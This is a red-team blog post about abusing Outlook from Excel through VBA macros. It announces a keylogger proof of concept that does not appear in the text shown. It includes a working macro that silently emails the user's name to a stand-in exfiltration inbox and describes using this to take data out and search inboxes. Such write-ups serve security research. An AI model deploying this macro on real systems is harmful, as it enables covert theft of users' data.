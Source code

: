 ```yaml
---
title: "The worst of the two worlds: Excel meets Outlook"
date: 2020-12-24 00:00:00 +00:00
modified: 2020-12-24 00:00:00 +00:00
tags: [red team, research, X-C3LL]
description: Turning Outlook into a keylogger via VBA macros
image: 
---
```


Dear Fell**owl**ship, today's homily is the last chapter of our trilogy about our epistolary-daemonic relationship with VBA. This time we are going to talk about how to interact with Outlook from Excel using macros, and also we are going to release a **PoC where we turn Outlook into a keylogger**. Please, take a seat and listen to the story.

# Prayers at the foot of the Altar a.k.a. disclaimer
*We promise this is the last time [@TheXC3LL](https://twitter.com/TheXC3LL) will publish about VBA. We have scheduled an exorcism this weekend to release his daemons, so he can write again about vulnerabilities and other stuff different to VBA.*


# Is it a self-spreading Excel saying ILOVEYOU? (Exfiltration & Propagation)

In our first chapter we talked about the concept of ["Hacking in a epistolary way"](https://adepts.of0x.cc/kerberoast-vba-macro/), where we started to implement attacks and TTPs directly in VBA macros avoiding process injections, dropping binaries or calling external programs that are flagged (like Powershell). This time we are going to shift our focus to Outlook.

First of all we have to say that you can interact with Outlook directly from other Microsoft Office apps via VBA using the object `Outlook.Application`. This means that we can abuse Outlook functionalities from within Excel, so we can look for confidential information inside the inbox or we can exfiltrate data via mails. To send a mail only a few lines are needed:

```vb
'https://docs.microsoft.com/es-es/office/vba/api/outlook.namespace
Sub send_mail_example()
    Dim xOutApp As Object
    Dim xOutMail As Object
    Dim xMailBody As String
    Set xOutApp = CreateObject("Outlook.Application")
    Set xOutMail = xOutApp.CreateItem(0)
    xMailBody = "You did it!"
    On Error Resume Next
    With xOutMail
        .To = "exfiltration.inbox@not-phising.cc"
        .CC = ""
        .BCC = ""
        .Subject = "Macro executed " & Environ("username")
        .Body = xMailBody
        .Send  
    End With
    On Error GoTo 0
    Set xOutMail = Nothing
    Set xOutApp = Nothing
End Sub
```
